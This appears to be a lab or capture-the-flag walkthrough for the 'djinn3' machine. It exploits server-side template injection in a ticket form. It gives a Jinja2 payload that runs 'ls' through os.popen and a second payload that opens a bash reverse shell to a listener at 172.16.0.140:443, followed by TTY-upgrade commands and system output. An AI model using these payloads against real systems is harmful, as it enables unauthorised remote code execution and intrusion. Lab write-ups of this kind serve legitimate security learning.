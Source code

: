 we are searching on this website a payload:

https://github.com/swisskyrepo/PayloadsAllTheThings

We can filtrate with CTRL + F on the navigator, we are going to watch server side template injection 

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

![[Screenshot_2023-08-12_15_56_05.png]]


if we put this " rlwrap nc 172.16.2.178 31337
" we can use the arrow <-- on the keyboard without problem

so... when we create new tickets we put this
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

So when we do this we have responses from the server

![[Screenshot_2023-08-12_16_12_15.png]]
 
Now we are going to try if we can have a interactive console.

first we listen on netcat
```
nc -nlvp 443
```

And we put this on the "tickets"
```
{{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/172.16.0.140/443 0>&1"').read()}}

```

And now we are inside of the machine

***Un dispositivo de terminal tty es un dispositivo de caracteres que realiza la entrada y la salida de carácter en carácter. La comunicación entre los dispositivos de terminal y los programas que los leen y escriben está controlada por la interfaz tty. Entre los ejemplos de dispositivos tty se encuentran: Módems.***

we try the terminal with to get a TTY

script /dev/null -c bash

stty raw -echo ;fg

reset xterm

TERM=xterm


lsb_release -a (we can get the version of our system)
```
www-data@djinn3:/opt/.web$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.4 LTS
Release:        18.04
Codename:       bionic
```
